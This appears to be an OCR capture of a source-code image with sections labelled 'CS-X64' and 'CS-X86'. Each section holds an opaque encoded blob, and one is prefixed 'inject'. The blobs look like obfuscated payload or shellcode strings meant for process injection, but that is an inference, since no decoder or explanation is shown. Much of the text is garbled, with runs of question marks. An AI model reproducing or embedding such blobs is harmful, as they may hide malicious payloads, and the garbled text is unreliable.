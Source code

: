 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

wefik34|2,????o;?6,m;1???0?,W;1???4,Z;???18,d;???22????,w;???2?6,p;3?0,????K;?34,??i;38?,.?;42?,??z;46??,y????;50,Y??;5???4,V;?58,W???;62???,D;6??6,N;7?0,T;7??4,J?;????78,M???;82???,h;86?,W;90?,k???;94,G?;98,e????;10???2,a;???106???,N??;110,?r;???114,????r;1??18,?p;1??22,r??;126???,x;13??0,O??;1?34,f;????|hAro?C0hm?6mlW9?Y???YZxy????C?dz?U2?w0??LA??pvhI?Kx???Dn????iCLM.??VnBz????rNLy??NBqY??yU2??VT9l???W10???5Dg?DvN??DZeTV???n??DJ5w0?Mwlv??h???zU???Y???W09zk??nx0G????3ljez??LN???aVmAN????vgH??rhzmr????B?Vwp?PfBr???9ITxx????ErO????CL3f??=qyukyh

rthtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuFRQ==op;ot
